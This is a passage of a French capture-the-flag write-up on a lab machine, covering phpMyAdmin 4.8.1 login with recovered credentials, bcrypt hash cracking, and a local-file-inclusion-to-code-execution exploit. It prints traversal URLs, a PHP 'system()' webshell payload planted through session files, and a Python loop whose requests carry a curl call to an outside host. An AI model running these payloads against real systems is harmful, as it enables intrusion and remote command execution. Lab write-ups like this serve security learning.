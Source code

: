```plain
:: Progress: [50000/50000] :: Job [1/1] :: 2023 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

Ce *datasafe.votenow.local* nous amène sur une installation de phpMyAdmin. Les identifiants récupérés précédemment permettent de s'y connecter.  

Dans une table *users* on trouve un hash bcrypt (misère) d'un certain *admin*. Il faut bien 40 minutes pour casser le hash qui correspond au clair *Stella* (la vitesse de cassage est entre 15 et 20 hashs à la seconde chez moi).  

Notre utilisateur SQL *votebox* ne dispose pas du privilège *FILE* qui aurait pu nous permettre de poser un webshell sur la machine.  

```plain
show grants;

GRANT USAGE ON *.* TO 'votebox'@'%' IDENTIFIED BY PASSWORD '*F8DCB98DA2D0C94434F0A37BFA19CDAB5F1BC5ED'	
GRANT ALL PRIVILEGES ON `votebox`.* TO 'votebox'@'%'	
GRANT ALL PRIVILEGES ON `votebox\_%`.* TO 'votebox'@'%'	
```

Armé du pass pour *admin*, on aimerait bien en faire quelque chose mais l'authentification par mot de passe étant bloqué on ne peut pas aller plus loin...  

En fait la version du *phpMyAdmin* est la 4.8.1 qui est vulnérable à [une faille d'inclusion locale pouvant amener à de l'exécution de code](https://www.exploit-db.com/exploits/50457).  

La vulnérabilité nécessite d'être authentifié et ça tombe bien vu que c'est notre cas. L'exploitation se fait de cette façon :  

*http://datasafe.votenow.local/index.php?target=db\_sql.php%253f/../../../../../../etc/passwd*  

L'exploit pour obtenir la RCE poste une requête du type  

```plain
select 'php system($_GET[&quot;cmd&quot;]); ?';
```

sur */import.php* puis il inclut le fichier de cookie présent sur le serveur (qui est nommé d'après la valeur du cookie *phpMyAdmin* donné lors de la connexion).  

L'idée c'est que la requête SQL est stockée dans la session qui est ensuite incluse.  

On a donc une requête qui ressemble à ça :  

```plain
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../var/lib/php/sessions/sess_bitno6d2hc3k0vp7dr05turs0o5s3c4k
```

Et qui aurait dû fonctionner sauf que ça n'a pas été le cas.  

J'ai modifié l'exploit pour qu'il tente à la place d'inclure des fichiers d'une wordlist et affiche un extrait du contenu si ça fonctionne.  

```python
session_id = cookies.get_dict()['phpMyAdmin']
with open("/opt/hdd/downloads/tools/wordlists/files/LFI-LFISuite-pathtotest.txt") as fd:
    for line in fd:
        logfile = line.strip()
        url3 = url + f"/index.php?target=db_sql.php%253f/../../../../../../../../{logfile}&cmd=curl%20http://192.168.56.1:8000/{logfile}"
        r = requests.get(url3, cookies = cookies)
        soup = BeautifulSoup(r.text, "html.parser")
        data = soup.find("div", id="page_content").get_text(strip=True)
        if not data:
            continue

        print(f"File {logfile} is readable")
        print(data[:20])
        print("")
```